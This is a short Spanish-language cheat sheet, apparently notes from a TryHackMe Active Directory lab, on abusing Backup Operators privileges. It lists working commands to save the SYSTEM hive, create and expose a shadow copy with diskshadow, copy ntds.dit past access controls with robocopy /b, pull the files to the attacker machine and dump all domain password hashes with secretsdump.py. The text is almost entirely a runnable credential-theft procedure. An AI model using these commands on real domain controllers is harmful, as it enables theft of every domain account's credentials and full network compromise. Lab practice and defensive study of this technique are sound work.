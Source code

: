 ** Backup Operators **
https://faisalfs10x.github.io/thm/AttacktiveDirectory

Atacando Kerberos con ASREPRoasting y abusando del grupo de operadores de respaldo para extraer NTDS.DIT

1. Copiar SYSTEM en la máquina objetivo --> `reg save HKLM\SYSTEM system`
2. Extraer NTDS.DIT con Diskshadow:
	* Crear archivo data en local. Se debe dejar un espacio en blanco tras cada línea para que funcione correctamente.
		```
		set content persistent nowriters 
		add volume c: alias pwned 
		create 
		expose %pwned% z: 
		```
	* Subir archivo data a la máquina objetivo.
	* Diskshadow para ejecutar el fichero data:
	* `diskshadow.exe /s data`
	* `copy z:\windows\ntds\ntds.dit C:\Users\SVC_backup\Desktop\backup\ntds.dit`
	* Bypassear Access Denied:
	* `robocopy /b z:\windows\ntds . ntds.dit`
	* Descargar system y ntds.dit en la máquina local (atacante).
1. Dumpear hashes del ntds.dit --> `secretsdump.py -system system -ntds ntds.dit LOCAL`



	

